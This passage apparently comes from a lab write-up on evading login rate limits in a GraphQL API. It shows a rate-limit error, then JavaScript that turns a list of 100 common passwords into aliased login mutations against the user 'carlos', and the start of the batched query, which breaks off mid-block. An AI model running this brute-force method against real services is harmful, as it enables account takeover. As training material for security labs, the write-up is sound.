 ```json
{
  "errors": [
    {
      "path": [
        "login"
      ],
      "extensions": {
        "message": "You have made too many incorrect login attempts. Please try again in 1 minute(s)."
      },
      "locations": [
        {
          "line": 3,
          "column": 9
        }
      ],
      "message": "Exception while fetching data (/login) : You have made too many incorrect login attempts. Please try again in 1 minute(s)."
    }
  ],
  "data": {
    "login": null
  }
}
```

In __Repeater__ navigate to __GraphQL__ tab on the Request panel and craft a request that uses aliases to send multiple login mutations in one message. In the Tip section an example JavaScript is provided to generate aliases:

```javascript
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

The tip suggests to open a browser console, paste it there and it will be copied to your clipboard. In the __GraphQL__ tab in Repeater's Request panel add it to the GraphQL query, like this:

```graphql
mutation login($input: LoginInput!) {
        login(input: $input) {
            token
            success
        }
    	bruteforce0:login(input:{password: "123456", username: "carlos"}) {
			token
			success
		}
        ....
        ....
        ....
        bruteforce99:login(input:{password: "moscow", username: "carlos"}) {
			token
```